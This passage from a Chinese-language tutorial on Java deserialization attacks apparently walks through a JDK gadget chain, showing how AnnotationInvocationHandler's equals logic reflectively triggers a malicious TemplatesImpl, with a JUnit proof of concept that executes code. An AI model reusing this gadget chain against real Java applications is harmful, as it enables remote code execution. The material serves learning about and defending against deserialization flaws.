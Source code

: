 ```text
     private Boolean equalsImpl(Object o) {
        // o 需要为 type 的实例
        if (!this.type.isInstance(o)) {
            return false;
        } 
        ...
        // 获取到 type Class 的方法
        for (Method memberMethod : getMemberMethods()) {
            ...
            AnnotationInvocationHandler hisHandler = asOneOfUs(o);
            if (hisHandler != null) {
                hisValue = hisHandler.memberValues.get(member);
            } else {
                // 反射调用方法
                hisValue = memberMethod.invoke(o);
            }
        }
        return true;
    }
```

理一下思路

1. 根据 **TemplatesImpl** 部分的说明，创建一个包含恶意代码的 TemplatesImpl 实例 `evilTemplates`
2. 使用 AnnotationInvocationHandler 创建 proxy object 代理 Templates 接口 \(会使用到反射\)
3. 调用 proxy object 的 `equals` 方法，将 `evilTemplates` 作为参数

示例代码如下，运行即可弹出计算器

```text
    @Test
    public void testTemplateImpl() throws Exception {
        Map map = new HashMap();
        //  AnnotationInvocationHandler 构造方法为 package private，需要使用反射创建实例
        final Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        // 构造 payload 时，因为新版 jdk 对 type 参数做了校验，必须为 Annotation
        // 为了不报错，所以设置为任意一个 Annotation，再用反射修改 type 参数
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, map);
        // 反射设置属性值
        setFieldValue(invocationHandler, "type", Templates.class);
        // 代理 Tempaltes 接口
        Templates proxy = (Templates) Proxy.newProxyInstance(InvocationHandler.class.getClassLoader(), new Class[]{Templates.class}, invocationHandler);
        // 获取包含恶意代码的 Templates 对象
        Templates evilTemplates = getEvilTemplates();
        // 触发恶意代码执行
        proxy.equals(evilTemplates);
    }
```
